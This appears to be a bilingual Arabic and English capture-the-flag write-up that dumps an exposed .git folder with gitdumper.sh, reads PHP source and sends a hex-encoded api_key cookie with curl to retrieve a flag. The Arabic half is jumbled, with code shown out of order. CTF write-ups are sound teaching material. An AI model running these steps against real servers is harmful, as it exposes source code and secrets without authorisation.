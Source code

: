 # 🕵️‍♂️ Web Challenge - Git Exposure to Flag

## 📜 وصف التحدي
في هذا التحدي، تم اكتشاف أن مجلد `.git/` مكشوف على السيرفر، مما أتاح لنا استرجاع ملفات حساسة تم حذفها لاحقًا. من خلال تحليل ملفات المشروع واستغلال الكوكيز، تمكّنا من الوصول إلى الفلاغ.

---

## 🧩 خطوات الحل

### 1. 🕳️ اكتشاف `.git` مفتوح
لاحظنا أن المجلد `.git/` يمكن الوصول إليه عبر المتصفح:

http://target.com/.git/


### 2. 🛠️ تحميل ملفات Git
استخدمنا أداة [gitdumper.sh](https://github.com/internetwache/GitTools) لتحميل المشروع:

```bash
gitdumper.sh http://target.com/.git/ ./recovered_repo
cd recovered_repo
git checkout .

if ($_COOKIE['api_key'] == $apikey)
    echo "Flag: $flag";
```
```
cat contact_process.php
```
$access = bin2hex('this_is_top_secret');

```
php -r "echo bin2hex('this_is_top_secret');"
```
يظهر ناتج التالي
```
746869735f69735f746f705f736563726574
```
بعد ذلك نستخدام الامر تالي للحصول على العلم
```
curl -b "api_key=746869735f69735f746f705f736563726574" http://target.com/api.php
```


# 🕵️‍♂️ Web Challenge - Git Exposure to Flag

## 📜 Challenge Description

In this challenge, we discovered that the `.git/` directory was publicly accessible on the server. This allowed us to recover sensitive project files that had been deleted. By analyzing the source code and leveraging cookie-based authentication, we were able to retrieve the flag.

---

## 🧩 Solution Steps

### 1. 🕳️ Public `.git` Directory Discovery

We noticed that the `.git/` folder was accessible via browser:



---

### 2. 🛠️ Dumping Git Files

We used the [gitdumper.sh](https://github.com/internetwache/GitTools) tool to recover the project source:

```bash
gitdumper.sh http://target.com/.git/ ./recovered_repo
cd recovered_repo
git checkout .
```

### 3. 🔍 Reviewing api.php
We found the following code:

```
if ($_COOKIE['api_key'] == $apikey)
    echo "Flag: $flag";
```
So, if we send the correct api_key value via a cookie, the flag will be revealed.

### 4. 📁 Analyzing access.php and contact_process.php
From the Git history, we found that $apikey is set from another variable:
`$apikey = $access;
`

In contact_process.php, we discovered this assignment:
`$access = bin2hex('this_is_top_secret');`
We can decode it using PHP:
`php -r "echo bin2hex('this_is_top_secret');"
`
This returns:

746869735f69735f746f705f736563726574

curl -b "api_key=746869735f69735f746f705f736563726574" http://target.com/api.php


🏁 Result
✅ Successfully bypassed the check and retrieved the flag.
